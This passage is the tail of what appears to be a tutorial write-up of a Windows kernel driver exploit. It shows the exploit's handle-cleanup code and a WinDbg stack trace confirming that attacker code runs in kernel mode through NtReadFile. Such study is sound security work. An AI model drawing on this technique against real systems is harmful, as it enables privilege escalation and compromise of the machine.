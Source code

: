 
Exit:
    if (hDevice != INVALID_HANDLE_VALUE)
    {
        CloseHandle(hDevice);
    }
    return;
}
{% endhighlight %}
And finally get our code executed in kernel mode:
```text
kd> k
 # ChildEBP RetAddr  
WARNING: Frame IP not in any known module. Following frames may be wrong.
00 8b44bb74 82cb5002 0x8652291c
01 8b44bc08 82a85b2d nt!NtReadFile+0x2e9
02 8b44bc08 771b6bb4 nt!KiSystemServicePostCall
03 0016f964 771b5dec ntdll!KiFastSystemCallRet
04 0016f968 7535c4fa ntdll!NtReadFile+0xc
05 0016f9cc 767b9e0a KERNELBASE!ReadFile+0x118
06 0016fa14 00983207 kernel32!ReadFileImplementation+0xf0
07 0016fb90 0098353b E!exploit+0x337
08 0016fd14 00983f2e E!main+0xfb
09 0016fd28 00983d91 E!invoke_main+0x1e [f:\dd\vctools\crt\vcstartup\src\startup\exe_common.inl @ 78] 
0a 0016fd80 00983c2d E!__scrt_common_main_seh+0x151 [f:\dd\vctools\crt\vcstartup\src\startup\exe_common.inl @ 283] 
0b 0016fd88 00983fa8 E!__scrt_common_main+0xd [f:\dd\vctools\crt\vcstartup\src\startup\exe_common.inl @ 326] 
0c 0016fd90 767befac E!mainCRTStartup+0x8 [f:\dd\vctools\crt\vcstartup\src\startup\exe_main.cpp @ 17] 
0d 0016fd9c 771d3628 kernel32!BaseThreadInitThunk+0xe
0e 0016fddc 771d35fb ntdll!__RtlUserThreadStart+0x70
0f 0016fdf4 00000000 ntdll!_RtlUserThreadStart+0x1b
```